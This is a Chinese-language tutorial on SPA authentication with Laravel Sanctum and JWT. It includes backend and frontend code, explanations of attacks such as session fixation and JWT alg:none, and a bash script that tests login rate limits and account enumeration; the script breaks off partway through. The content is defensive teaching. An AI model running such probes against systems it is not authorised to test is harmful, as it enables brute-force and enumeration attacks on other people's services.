

# 認證串接 - Sanctum 與 JWT

> [!abstract] 這篇你會學到
> - **★★★ Sanctum SPA（Cookie）**的完整實作
> - **Sanctum API Token** 與 abilities
> - **JWT** 的原理、風險與正確用法
> - **★★★ Token 儲存策略**（為什麼不能用 localStorage）
> - **登出與撤銷**的完整處理
> - **自動續期**與 401 攔截
> - **★★ 認證相關的安全檢查**

## 前置知識

- [[01-前後端分離架構選型]] — 認證方式的選擇
- [[03-跨網域與CORS設定]] — 跨網域的 cookie

---

## 三種方式的比較 ★★★

| | **Sanctum SPA（Cookie）** ★★ | **Sanctum Token** | **JWT** |
| --- | --- | --- | --- |
| 儲存位置 | **HttpOnly Cookie** | 客戶端自行保管 | 同左 |
| **XSS 竊取風險** | **★★ 極低** | ★★★ 高（若存 localStorage） | ★★★ 高 |
| CSRF 風險 | 有（★ 需 CSRF token） | 無 | 無 |
| 跨網域 | ✗ 困難 | ✓ | ✓ |
| **狀態** | 有狀態（session） | **有狀態**（DB 查詢） | **無狀態** |
| **即時撤銷** | ✓ 刪 session | **✓ 刪 DB 記錄** | **✗ 困難** |
| 每次請求的成本 | session 查詢 | **★ DB 查詢** | ★★ 只驗簽章 |
| 擴充性 | 需共享 session | 需共享 DB | **★★ 最好** |
| 複雜度 | ★ 低 | ★ 低 | ★★★ 高 |
| **適用** | **★★★ 同源 SPA** | 手機 App、第一方 API | 微服務、大規模 |

> [!danger] 預設選擇：Sanctum SPA Cookie ★★★
> ```
> ★★★ 除非有明確的理由，否則一律選 Sanctum SPA（Cookie）
>
> 理由：
>   ① ★★ HttpOnly cookie 【JS 讀不到】→ XSS 也偷不走
>   ② ★★ 瀏覽器自動管理（過期、送出、清除）
>   ③ ★★ 可以即時撤銷（刪 session）
>   ④ ★ 設定最簡單
>   ⑤ ★ Laravel 官方推薦給 SPA
>
> ★★ 什麼時候才需要 Token：
>   · 手機 App（沒有 cookie 概念）
>   · ★ 真正的跨網域（不同的可註冊網域）
>   · 開放 API 給第三方
>   · 需要細緻的 abilities 控制
> ```

---

## ★★★ Sanctum SPA（Cookie）

### 安裝與設定

```bash
$ composer require laravel/sanctum
$ php artisan install:api          # ★ Laravel 11+
# ★ 或
$ php artisan vendor:publish --provider="Laravel\Sanctum\SanctumServiceProvider"
$ php artisan migrate
```

```php
<?php
// ★★ bootstrap/app.php
->withMiddleware(function (Middleware $middleware) {
    // ★★★ 這一行讓 Sanctum 的 SPA 模式生效
    $middleware->statefulApi();

    // ★★★ 反向代理（HTTPS 三件套）
    $middleware->trustProxies(
        at: ['127.0.0.1', '::1'],
        headers: Request::HEADER_X_FORWARDED_FOR
               | Request::HEADER_X_FORWARDED_HOST
               | Request::HEADER_X_FORWARDED_PORT
               | Request::HEADER_X_FORWARDED_PROTO,
    );
})
```

```dotenv
# ★★★ .env（同源）
APP_URL=https://app.example.gov.tw
FRONTEND_URL=https://app.example.gov.tw

SESSION_DRIVER=redis                     # ★★ 多台伺服器時必須
SESSION_LIFETIME=120
SESSION_ENCRYPT=false
SESSION_SECURE_COOKIE=true               # ★★★
SESSION_SAME_SITE=lax
SESSION_DOMAIN=null                      # ★ 同源時 null

SANCTUM_STATEFUL_DOMAINS=app.example.gov.tw
```

```dotenv
# ★★★ .env（子網域）
APP_URL=https://api.example.gov.tw
FRONTEND_URL=https://app.example.gov.tw

SESSION_DRIVER=redis
SESSION_SECURE_COOKIE=true
SESSION_SAME_SITE=lax
SESSION_DOMAIN=.example.gov.tw           # ★★★ 前導點

SANCTUM_STATEFUL_DOMAINS=app.example.gov.tw
```

```php
<?php
// ★★ config/sanctum.php
return [
    'stateful' => explode(',', env('SANCTUM_STATEFUL_DOMAINS', sprintf(
        '%s%s',
        'localhost,localhost:3000,localhost:5173,127.0.0.1,127.0.0.1:8000,::1',
        Sanctum::currentApplicationUrlWithPort(),
    ))),

    'guard' => ['web'],

    // ★★ Token 的過期時間（分鐘）—— null 表示不過期
    'expiration' => 60 * 24 * 30,        // ★ 30 天

    // ★ Token 前綴（★ 方便 GitHub 等平台的秘密掃描辨識）
    'token_prefix' => env('SANCTUM_TOKEN_PREFIX', 'egtw_'),

    'middleware' => [
        'authenticate_session' => Laravel\Sanctum\Http\Middleware\AuthenticateSession::class,
        'encrypt_cookies'      => Illuminate\Cookie\Middleware\EncryptCookies::class,
        'validate_csrf_token'  => Illuminate\Foundation\Http\Middleware\ValidateCsrfToken::class,
    ],
];
```

### ★★ 後端路由

```php
<?php
// routes/api.php
use App\Http\Controllers\AuthController;

// ═══ 公開（★ 嚴格限流）═══
Route::post('/login', [AuthController::class, 'login'])
    ->middleware(['guest', 'throttle:login']);

// ═══ ★★ 需要認證 ═══
Route::middleware('auth:sanctum')->group(function () {
    Route::post('/logout',     [AuthController::class, 'logout']);
    Route::post('/logout-all', [AuthController::class, 'logoutAll']);
    Route::get('/user',        [AuthController::class, 'user']);
    Route::get('/sessions',    [AuthController::class, 'sessions']);
});
```

```php
<?php
// app/Http/Controllers/AuthController.php
namespace App\Http\Controllers;

use App\Http\Resources\UserResource;
use Illuminate\Http\Request;
use Illuminate\Support\Facades\Auth;
use Illuminate\Support\Facades\Hash;
use Illuminate\Support\Facades\Log;
use Illuminate\Support\Facades\DB;
use Illuminate\Validation\ValidationException;

class AuthController extends Controller
{
    // ═══════ ★★★ 登入 ═══════
    public function login(Request $request)
    {
        $request->validate([
            'email'    => ['required', 'email', 'max:255'],
            'password' => ['required', 'string'],
            'remember' => ['sometimes', 'boolean'],
        ]);

        $user = \App\Models\User::where('email', $request->email)->first();

        // ★★ 防時序攻擊：即使帳號不存在也做一次 Hash::check
        $hash = $user?->password ?? '$2y$12$'.str_repeat('x', 53);
        $valid = Hash::check($request->password, $hash) && $user !== null;

        if (!$valid) {
            Log::channel('security')->warning('登入失敗', [
                'email'  => $request->email,
                'ip'     => $request->ip(),
                'ua'     => substr($request->userAgent() ?? '', 0, 200),
                'exists' => (bool) $user,          // ★ 只記日誌
            ]);
            // ★★ 統一的錯誤訊息（不洩漏帳號是否存在）
            throw ValidationException::withMessages([
                'email' => ['帳號或密碼錯誤'],
            ]);
        }

        // ★★ 帳號狀態檢查
        if (!$user->is_active) {
            throw ValidationException::withMessages([
                'email' => ['此帳號已停用，請聯絡管理員'],
            ]);
        }

        // ★★★ 建立 session（Cookie 模式）
        Auth::login($user, $request->boolean('remember'));

        // ★★★ 防 session fixation（★ 必須）
        $request->session()->regenerate();

        $user->forceFill([
            'last_login_at' => now(),
            'last_login_ip' => $request->ip(),
        ])->save();

        Log::channel('security')->info('登入成功', [
            'user_id' => $user->id,
            'ip'      => $request->ip(),
        ]);

        return new UserResource($user);
    }

    // ═══════ ★★ 登出 ═══════
    public function logout(Request $request)
    {
        $userId = $request->user()?->id;

        Auth::guard('web')->logout();
        $request->session()->invalidate();          // ★★ 銷毀 session 資料
        $request->session()->regenerateToken();     // ★★ 換新的 CSRF token

        Log::channel('security')->info('登出', ['user_id' => $userId]);

        return response()->noContent();
    }

    // ═══════ ★★ 登出所有裝置 ═══════
    public function logoutAll(Request $request)
    {
        $user = $request->user();

        // ★★ 刪除 DB 中的所有 session（SESSION_DRIVER=database 時）
        // DB::table('sessions')->where('user_id', $user->id)->delete();

        // ★★ Redis session：換密碼會讓所有 session 失效（AuthenticateSession）
        // ★ 或用 Sanctum 的 token
        $user->tokens()->delete();

        Auth::guard('web')->logout();
        $request->session()->invalidate();
        $request->session()->regenerateToken();

        Log::channel('security')->warning('登出所有裝置', ['user_id' => $user->id]);

        return response()->noContent();
    }

    // ═══════ 目前的使用者 ═══════
    public function user(Request $request)
    {
        return new UserResource($request->user()->load('roles'));
    }

    // ═══════ ★ 檢視所有登入中的裝置 ═══════
    public function sessions(Request $request)
    {
        // ★★ 需要 SESSION_DRIVER=database
        return DB::table('sessions')
            ->where('user_id', $request->user()->id)
            ->orderByDesc('last_activity')
            ->get()
            ->map(fn ($s) => [
                'id'            => substr($s->id, 0, 8),
                'ip'            => $s->ip_address,
                'agent'         => substr($s->user_agent ?? '', 0, 120),
                'last_activity' => date('c', $s->last_activity),
                'is_current'    => $s->id === $request->session()->getId(),
            ]);
    }
}
```

> [!danger] `session()->regenerate()` 是必須的 ★★★
> ```
> ★★★ 防 Session Fixation 攻擊：
>
>   ① 攻擊者先取得一個 session ID（★ 隨便訪問一次網站就有）
>   ② 用某種方式讓受害者的瀏覽器使用【那個 session ID】
>      （★ 例如 XSS、或帶 session ID 的連結）
>   ③ 受害者登入
>   ④ ★★★ 若登入後【沒有更換 session ID】
>      → 攻擊者手上的那個 session ID 【現在已經是登入狀態】
>        → 攻擊者直接冒用
>
> ★★ 解法：Auth::login() 之後【立刻】呼叫
>   $request->session()->regenerate();
>
> ★ Laravel 內建的 LoginController 有做，
>   但【自己寫的登入邏輯很容易漏掉】
> ```

### ★★★ 前端實作

```typescript
// src/api/client.ts
import axios, { type AxiosInstance } from 'axios';

const API_BASE = import.meta.env.VITE_API_BASE || '/api';

export const api: AxiosInstance = axios.create({
  baseURL: API_BASE,
  withCredentials: true,                       // ★★★ 必須（送 cookie）
  headers: {
    'Accept': 'application/json',              // ★★★ 讓錯誤回 JSON
    'X-Requested-With': 'XMLHttpRequest',
  },
  // ★★ axios 預設會從 XSRF-TOKEN cookie 讀出放進 X-XSRF-TOKEN 標頭
  xsrfCookieName: 'XSRF-TOKEN',
  xsrfHeaderName: 'X-XSRF-TOKEN',
});

// ★★ 用於 CSRF 的獨立 instance（★ 不帶 baseURL）
const root = axios.create({ withCredentials: true });

let csrfPromise: Promise<void> | null = null;

// ★★★ 確保 CSRF cookie 存在（★ 去重，避免同時發多個請求）
export async function ensureCsrf(): Promise<void> {
  if (document.cookie.includes('XSRF-TOKEN=')) return;
  if (!csrfPromise) {
    csrfPromise = root.get('/sanctum/csrf-cookie')
      .then(() => { csrfPromise = null; })
      .catch((e) => { csrfPromise = null; throw e; });
  }
  return csrfPromise;
}

// ═══════ ★★★ 401 攔截 ═══════
let isRedirecting = false;

api.interceptors.response.use(
  (r) => r,
  async (error) => {
    const status = error.response?.status;

    // ★★ 419 = CSRF token 過期 → 重新取得後重試一次
    if (status === 419 && !error.config._csrfRetry) {
      error.config._csrfRetry = true;
      csrfPromise = null;
      await ensureCsrf();
      return api(error.config);
    }

    // ★★★ 401 = 未認證 → 導向登入
    if (status === 401 && !isRedirecting) {
      isRedirecting = true;
      const auth = useAuthStore();
      auth.$reset();
      // ★ 記住原本要去的頁面
      const redirect = encodeURIComponent(window.location.pathname + window.location.search);
      window.location.href = `/login?redirect=${redirect}`;
    }

    // ★ 429 = 被限流
    if (status === 429) {
      const retry = error.response.headers['retry-after'];
      console.warn(`請求過於頻繁，${retry} 秒後再試`);
    }

    return Promise.reject(error);
  },
);
```

```typescript
// src/stores/auth.ts —— Pinia store
import { defineStore } from 'pinia';
import { api, ensureCsrf } from '@/api/client';

interface User { id: number; name: string; email: string; roles: string[] }

export const useAuthStore = defineStore('auth', {
  state: () => ({
    user: null as User | null,
    initialized: false,
  }),

  getters: {
    isLoggedIn: (s) => s.user !== null,
    hasRole: (s) => (role: string) => s.user?.roles.includes(role) ?? false,
  },

  actions: {
    // ═══════ ★★★ 登入（兩步）═══════
    async login(email: string, password: string, remember = false) {
      await ensureCsrf();                        // ★★★ ① 先取得 CSRF cookie
      const { data } = await api.post('/login', { email, password, remember }); // ② 登入
      this.user = data.data ?? data;
      return this.user;
    },

    async logout() {
      try {
        await api.post('/logout');
      } finally {
        this.$reset();
        // ★★ 清掉 cookie（★ HttpOnly 的清不掉，但 XSRF-TOKEN 可以）
        document.cookie = 'XSRF-TOKEN=; Max-Age=0; path=/';
      }
    },

    // ═══════ ★★ 應用啟動時檢查登入狀態 ═══════
    async fetchUser() {
      try {
        const { data } = await api.get('/user');
        this.user = data.data ?? data;
      } catch {
        this.user = null;
      } finally {
        this.initialized = true;
      }
    },
  },
});
```

```typescript
// ★★ main.ts —— 啟動時先確認登入狀態
import { createApp } from 'vue';
import { createPinia } from 'pinia';
import App from './App.vue';
import router from './router';
import { useAuthStore } from './stores/auth';

const app = createApp(App);
app.use(createPinia());

// ★★★ 先確認登入狀態再掛載（★ 避免閃爍與誤導向）
const auth = useAuthStore();
auth.fetchUser().finally(() => {
  app.use(router);
  app.mount('#app');
});
```

```typescript
// ★★ router 的守衛（★ 只是 UI，不是安全機制）
router.beforeEach(async (to) => {
  const auth = useAuthStore();

  if (!auth.initialized) await auth.fetchUser();

  if (to.meta.requiresAuth && !auth.isLoggedIn) {
    return { name: 'login', query: { redirect: to.fullPath } };
  }
  if (to.meta.requiresRole && !auth.hasRole(to.meta.requiresRole as string)) {
    return { name: 'forbidden' };
  }
  // ★ 已登入就不要進登入頁
  if (to.name === 'login' && auth.isLoggedIn) {
    return { name: 'dashboard' };
  }
});
```

---

## Sanctum API Token ★★

```php
<?php
// ★★ 建立 token
Route::post('/tokens', function (Request $request) {
    $request->validate([
        'email'       => ['required', 'email'],
        'password'    => ['required'],
        'device_name' => ['required', 'string', 'max:255'],
    ]);

    $user = User::where('email', $request->email)->first();
    if (!$user || !Hash::check($request->password, $user->password)) {
        throw ValidationException::withMessages(['email' => ['帳號或密碼錯誤']]);
    }

    // ★★ 同一個裝置只保留一個 token
    $user->tokens()->where('name', $request->device_name)->delete();

    $token = $user->createToken(
        $request->device_name,
        ['orders:read', 'orders:write'],           // ★★ abilities
        now()->addDays(30),                         // ★★ 過期時間
    );

    return [
        'token'      => $token->plainTextToken,     // ★★★ 只有這一次看得到
        'expires_at' => $token->accessToken->expires_at?->toIso8601String(),
        'abilities'  => $token->accessToken->abilities,
    ];
})->middleware('throttle:login');
```

```php
<?php
// ★★ 檢查 abilities
Route::middleware(['auth:sanctum', 'abilities:orders:write'])->group(function () {
    Route::post('/orders', [OrderController::class, 'store']);
});

// ★ 或在 Controller 裡
if (!$request->user()->tokenCan('orders:write')) {
    abort(403, '此 token 沒有寫入權限');
}
```

```php
<?php
// ★★ Token 管理
Route::middleware('auth:sanctum')->group(function () {
    // ★ 列出所有 token
    Route::get('/tokens', fn (Request $r) => $r->user()->tokens()
        ->select(['id', 'name', 'abilities', 'last_used_at', 'expires_at', 'created_at'])
        ->get());

    // ★★ 撤銷單一 token
    Route::delete('/tokens/{id}', function (Request $r, int $id) {
        $r->user()->tokens()->where('id', $id)->delete();
        return response()->noContent();
    });

    // ★★ 撤銷目前的 token（登出）
    Route::post('/tokens/revoke', function (Request $r) {
        $r->user()->currentAccessToken()->delete();
        return response()->noContent();
    });

    // ★★★ 撤銷全部
    Route::post('/tokens/revoke-all', function (Request $r) {
        $r->user()->tokens()->delete();
        return response()->noContent();
    });
});
```

```bash
# ★★ 清理過期的 token（排程）
# routes/console.php
Schedule::command('sanctum:prune-expired --hours=24')->daily();
```

---

## JWT ★★

```
★★ JWT 的結構：
  eyJhbGciOiJIUzI1NiJ9.eyJzdWIiOiIxIn0.4pC0...
  └── header ──┘└── payload ─┘└─ signature ─┘

★★★ header 與 payload 是【Base64 編碼，不是加密】
  → 任何人都能解開看內容
    → ★★ 絕對不要在 payload 放敏感資料
```

```bash
# ★★ 解開 JWT 看內容（★ 不需要金鑰）
$ TOKEN="eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJzdWIiOiIxMjM0IiwibmFtZSI6IuW8tSJ9.xxx"
$ echo "$TOKEN" | cut -d. -f2 | base64 -d 2>/dev/null | jq
{
  "sub": "1234",
  "name": "張三",
  "iat": 1724832000,
  "exp": 1724835600
}
# ★★★ 這就是為什麼不能放密碼、身分證號等敏感資料
```

> [!danger] JWT 的五個陷阱 ★★★
> ```
> ① ★★★ payload 是【公開可讀】的
>    → 只有簽章保護「不被竄改」，內容【不是加密的】
>    → ★★ 不要放：密碼、身分證號、內部 ID 對照、權限的完整清單
>
> ② ★★★★ 無法即時撤銷
>    → JWT 是【無狀態】的：伺服器只驗簽章，不查資料庫
>      → ★★★ 使用者登出、被停權、密碼外洩
>        → 那個 token 【在過期前仍然有效】
>    → ★★ 解法：
>      · 短效期（15 分鐘）+ refresh token
>      · ★ 維護一個「黑名單」（★ 但這樣就不是無狀態了）
>      · 在 payload 放一個 version，與 DB 中的比對（★ 每次都要查 DB）
>
> ③ ★★★ alg: none 攻擊
>    → 某些函式庫接受 {"alg":"none"} 的 token（★ 不驗簽章）
>    → ★★ 一定要在驗證時【明確指定演算法】
>
> ④ ★★ HS256 的金鑰太短
>    → 可以離線暴力破解
>    → ★ 至少 256 bit 的隨機值
>
> ⑤ ★★★ 存在 localStorage
>    → XSS 就能偷走（★ 見下方）
> ```

```php
<?php
// ★★ 若真的要用 JWT（php-open-source-saver/jwt-auth）
// config/jwt.php
return [
    'secret' => env('JWT_SECRET'),          // ★★ php artisan jwt:secret

    'ttl' => 15,                             // ★★★ access token 15 分鐘
    'refresh_ttl' => 20160,                  // ★ refresh 14 天

    'algo' => 'HS256',                       // ★★ 明確指定
    'required_claims' => ['iss', 'iat', 'exp', 'nbf', 'sub', 'jti'],

    'blacklist_enabled' => true,             // ★★★ 啟用黑名單（可撤銷）
    'blacklist_grace_period' => 30,
];
```

```php
<?php
// ★★ 加上 token version 讓密碼變更能使所有 token 失效
class User extends Authenticatable implements JWTSubject
{
    public function getJWTIdentifier() { return $this->getKey(); }

    public function getJWTCustomClaims(): array
    {
        return [
            'tv' => $this->token_version,        // ★★ token version
            // ★★★ 不要放敏感資料
        ];
    }
}

// ★★ 驗證時檢查
class CheckTokenVersion
{
    public function handle(Request $request, Closure $next)
    {
        $payload = auth('api')->payload();
        if ($payload->get('tv') !== $request->user()->token_version) {
            abort(401, 'Token 已失效，請重新登入');
        }
        return $next($request);
    }
}

// ★ 密碼變更時
$user->increment('token_version');            // ★★ 所有舊 token 立即失效
```

---

## ★★★ Token 儲存策略



```typescript
// ═══════ ★★★ 正確的 Token 儲存 ═══════

// ❌❌❌ 絕對不要
localStorage.setItem('token', token);
// → 任何 JS 都讀得到 → 一個 XSS 就全部外洩
// → 攻擊者可以在【任何地方】用那個 token（沒有 SameSite 保護）

// ⚠ 次差
sessionStorage.setItem('token', token);
// → 仍然是 JS 可讀（★ 但至少關掉分頁就消失）

// ✅ ★★★ 存在記憶體（模組層級的變數）
class TokenStore {
  #token: string | null = null;
  #expiresAt = 0;

  set(token: string, expiresIn: number) {
    this.#token = token;
    this.#expiresAt = Date.now() + expiresIn * 1000;
  }

  get(): string | null {
    if (!this.#token) return null;
    // ★★ 提前 30 秒視為過期（避免邊界問題）
    if (Date.now() > this.#expiresAt - 30_000) return null;
    return this.#token;
  }

  clear() { this.#token = null; this.#expiresAt = 0; }

  // ★ 剩餘秒數（★ 用於主動續期）
  get remainingSeconds() {
    return Math.max(0, Math.floor((this.#expiresAt - Date.now()) / 1000));
  }
}

export const tokenStore = new TokenStore();
```

```typescript
// ★★★ 頁面重整後用 refresh token（HttpOnly cookie）重新取得
export async function refreshAccessToken(): Promise<string | null> {
  try {
    // ★★ refresh token 在 HttpOnly cookie 裡，瀏覽器自動送
    const { data } = await axios.post('/auth/refresh', {}, { withCredentials: true });
    tokenStore.set(data.access_token, data.expires_in);
    return data.access_token;
  } catch {
    tokenStore.clear();
    return null;
  }
}

// ★★ 攔截器：自動附加 token 與處理 401
let refreshPromise: Promise<string | null> | null = null;

api.interceptors.request.use(async (config) => {
  let t = tokenStore.get();
  if (!t) {
    // ★★ 去重：多個請求同時發現 token 過期時只 refresh 一次
    refreshPromise ??= refreshAccessToken().finally(() => { refreshPromise = null; });
    t = await refreshPromise;
  }
  if (t) config.headers.Authorization = `Bearer ${t}`;
  return config;
});

api.interceptors.response.use(
  (r) => r,
  async (error) => {
    if (error.response?.status === 401 && !error.config._retry) {
      error.config._retry = true;
      refreshPromise ??= refreshAccessToken().finally(() => { refreshPromise = null; });
      const t = await refreshPromise;
      if (t) {
        error.config.headers.Authorization = `Bearer ${t}`;
        return api(error.config);
      }
      window.location.href = '/login';
    }
    return Promise.reject(error);
  },
);
```

```php
<?php
// ★★★ 後端的 refresh 端點（refresh token 用 HttpOnly cookie）
Route::post('/auth/refresh', function (Request $request) {
    $refresh = $request->cookie('refresh_token');
    if (!$refresh) {
        return response()->json(['message' => '未提供 refresh token'], 401);
    }

    // ★★ 查詢並驗證
    $record = DB::table('refresh_tokens')
        ->where('token_hash', hash('sha256', $refresh))
        ->where('expires_at', '>', now())
        ->whereNull('revoked_at')
        ->first();

    if (!$record) {
        return response()->json(['message' => 'refresh token 無效'], 401);
    }

    $user = User::find($record->user_id);
    if (!$user || !$user->is_active) {
        return response()->json(['message' => '帳號已停用'], 401);
    }

    // ★★★ Refresh token rotation（★ 每次用完就換新的）
    DB::table('refresh_tokens')->where('id', $record->id)
        ->update(['revoked_at' => now()]);

    $newRefresh = Str::random(64);
    DB::table('refresh_tokens')->insert([
        'user_id'    => $user->id,
        'token_hash' => hash('sha256', $newRefresh),
        'expires_at' => now()->addDays(14),
        'created_at' => now(),
        'ip'         => $request->ip(),
    ]);

    $access = $user->createToken('access', ['*'], now()->addMinutes(15));

    return response()
        ->json([
            'access_token' => $access->plainTextToken,
            'expires_in'   => 900,
        ])
        ->cookie(
            'refresh_token', $newRefresh,
            60 * 24 * 14,          // 14 天
            '/auth',               // ★★ path 限制（只有 refresh 端點會送）
            null,                  // domain
            true,                  // ★★★ secure
            true,                  // ★★★ httpOnly
            false,
            'strict',              // ★★ sameSite
        );
})->middleware('throttle:refresh');
```

> [!danger] Refresh Token Rotation ★★
> ```
> ★★ 每次使用 refresh token 就【換一個新的】並撤銷舊的
>
> ★★★ 好處：偵測 token 被竊取
>   → 若舊的 refresh token 【被再次使用】
>     → 表示有人複製了它
>       → ★★ 立刻撤銷【該使用者的所有 token】並通知
>
> ★ 實作：
>   if ($record->revoked_at !== null) {
>       // ★★★ 已撤銷的 token 被使用 → 遭竊
>       DB::table('refresh_tokens')->where('user_id', $record->user_id)
>           ->update(['revoked_at' => now()]);
>       Log::channel('security')->critical('Refresh token 重複使用（疑似遭竊）', [
>           'user_id' => $record->user_id, 'ip' => request()->ip(),
>       ]);
>       return response()->json(['message' => '安全性問題，請重新登入'], 401);
>   }
> ```

---

## 完整實戰範例：認證流程驗證

```bash
#!/usr/bin/env bash
# /usr/local/bin/verify-auth —— 認證流程完整驗證
set -uo pipefail
API="${1:-https://api.example.gov.tw}"
ORIGIN="${2:-https://app.example.gov.tw}"
EMAIL="${3:-test@example.gov.tw}"
PASS_="${4:-}"
C=/tmp/auth-verify.txt
PASS=0; FAIL=0

p(){ printf '  \033[32m✓\033[0m %s\n' "$1"; PASS=$((PASS+1)); }
f(){ printf '  \033[31m✗✗\033[0m %s\n' "$1"; FAIL=$((FAIL+1)); }
w(){ printf '  \033[33m⚠\033[0m %s\n' "$1"; }

rm -f "$C"
echo "═══ 認證流程驗證 ═══"

# ═══ 【1】★★ CSRF cookie ═══
echo -e "\n【1】★★ CSRF cookie"
H=$(curl -sikc "$C" "$API/sanctum/csrf-cookie" -H "Origin: $ORIGIN" --max-time 15 -o /dev/null)
echo "$H" | grep -qi 'set-cookie:.*XSRF-TOKEN' && p "設定了 XSRF-TOKEN" || f "沒有設定 XSRF-TOKEN"
echo "$H" | grep -qi 'set-cookie:.*[Ss]ecure' && p "★★ cookie 有 Secure" || f "★★ 沒有 Secure"
SESS=$(echo "$H" | grep -i 'set-cookie' | grep -iv XSRF | head -1)
echo "$SESS" | grep -qi httponly && p "★★ session cookie 有 HttpOnly" || f "★★★ session cookie 沒有 HttpOnly"
echo "$SESS" | grep -qiE 'samesite=(lax|strict)' && p "★ SameSite 設定正確" || w "SameSite 未設定或是 None"
DOM=$(echo "$H" | grep -oiP 'domain=\K[^;]*' | head -1)
[ -n "$DOM" ] && echo "      cookie domain: $DOM"

# ═══ 【2】★★★ 未認證的存取 ═══
echo -e "\n【2】★★★ 未認證"
R=$(curl -s "$API/api/user" -H 'Accept: application/json' --max-time 10)
CODE=$(curl -so /dev/null -w '%{http_code}' "$API/api/user" -H 'Accept: application/json')
[ "$CODE" = 401 ] && p "未認證回傳 401" || f "未認證回傳 $CODE（應為 401）"
echo "$R" | jq -e '.message' >/dev/null 2>&1 && p "401 是 JSON 格式" || \
  { f "401 不是 JSON"; echo "$R" | head -c 150 | sed 's/^/      /'; }

# ═══ 【3】★★★ 登入限流 ═══
echo -e "\n【3】★★★ 登入限流"
CODES=""
for i in $(seq 1 12); do
    CODES="$CODES$(curl -so /dev/null -w '%{http_code}' -X POST "$API/login" \
      -H 'Accept: application/json' -H 'Content-Type: application/json' \
      -H "Origin: $ORIGIN" \
      -d '{"email":"nonexistent@x.tw","password":"wrong"}' --max-time 10) "
done
echo "      $CODES"
echo "$CODES" | grep -q 429 && p "★★★ 有限流（出現 429）" || \
  f "★★★★ 沒有限流 —— 可被暴力破解"

# ═══ 【4】★★ 錯誤訊息不洩漏帳號 ═══
echo -e "\n【4】★★ 帳號列舉防護"
sleep 65    # ★ 等限流重置
R1=$(curl -s -X POST "$API/login" -H 'Accept: application/json' \
     -H 'Content-Type: application/json' \
     -d '{"email":"definitely-not-exist@x.tw","password":"x"}' --max-time 10)
R2=$(curl -s -X POST "$API/login" -H 'Accept: application/json' \
     -H 'Content-Type: application/json' \
     -d "{\"email\":\"$EMAIL\",\"password\":\"definitely-wrong\"}" --max-time 10)
M1=$(echo "$R1" | jq -r '.errors.email[0] // .message // ""')
M2=$(echo "$R2" | jq -r '.errors.email[0] // .message // ""')
echo "      不存在的帳號：$M1"
echo "      存在但密碼錯：$M2"
[ "$M1" = "$M2" ] && p "★★ 錯誤訊息一致（不洩漏帳號存在與否）" || \
  f "★★★ 錯誤訊息不同 —— 可用於帳號列舉"

# ═══ 【5】★★ 完整登入流程 ═══
if [ -n "$PASS_" ]; then
    echo -e "\n【5】★★ 完整登入流程"
    rm -f "$C"
    curl -sc "$C" "$API/sanctum/csrf-cookie" -H "Origin: $ORIGIN" -o /dev/null
    XSRF=$(grep XSRF-TOKEN "$C" | awk '{print $7}' | \
           python3 -c 'import sys,urllib.parse;print(urllib.parse.unquote(sys.stdin.read().strip()))' 2>/dev/null)

    LOGIN=$(curl -sb "$C" -c "$C" -X POST "$API/login" \
            -H "X-XSRF-TOKEN: $XSRF" -H "Origin: $ORIGIN" \
            -H 'Accept: application/json' -H 'Content-Type: application/json' \
            -d "{\"email\":\"$EMAIL\",\"password\":\"$PASS_\"}" \
            -w '\n%{http_code}' --max-time 15)
    LC=$(echo "$LOGIN" | tail -1)
    [ "$LC" = 200 ] || [ "$LC" = 204 ] && p "登入成功 ($LC)" || \
      { f "登入失敗 ($LC)"; echo "$LOGIN" | head -1 | sed 's/^/      /'; }

    # ★★ 登入後取得使用者
    U=$(curl -sb "$C" "$API/api/user" -H 'Accept: application/json' --max-time 10)
    echo "$U" | jq -e '.data.id // .id' >/dev/null 2>&1 && p "★★ 登入後可取得使用者資料" || \
      f "★★ 登入後仍無法取得使用者（★ 檢查 SANCTUM_STATEFUL_DOMAINS 與 SESSION_DOMAIN）"

    # ★★★ 敏感欄位檢查
    LEAK=$(echo "$U" | jq -r '(.data // .) | keys[]' 2>/dev/null | \
           grep -iE 'password|remember_token|api_token' || true)
    [ -z "$LEAK" ] && p "★★★ 沒有洩漏敏感欄位" || \
      { f "★★★ 洩漏了敏感欄位"; echo "$LEAK" | sed 's/^/      /'; }

    # ★★ 登出
    curl -sb "$C" -c "$C" -X POST "$API/logout" -H "X-XSRF-TOKEN: $XSRF" \
      -H "Origin: $ORIGIN" -o /dev/null --max-time 10
    AFTER=$(curl -sb "$C" -o /dev/null -w '%{http_code}' "$API/api/user" \
            -H 'Accept: application/json' --max-time 10)
    [ "$AFTER" = 401 ] && p "★★ 登出後無法存取（401）" || \
      f "★★★ 登出後仍可存取（$AFTER）—— session 沒有正確銷毀"
else
    w "沒有提供密碼，跳過完整登入測試"
fi

# ═══ 【6】★★★ 前端 token 儲存 ═══
echo -e "\n【6】★★★ 前端的 token 儲存"
JS=$(curl -s "$ORIGIN/" 2>/dev/null | grep -oE '/assets/[^"]+\.js' | head -3)
FOUND=0
for j in $JS; do
    if curl -s "$ORIGIN$j" 2>/dev/null | grep -qE 'localStorage\.(setItem|getItem)\([^)]*[Tt]oken'; then
        FOUND=1
    fi
done
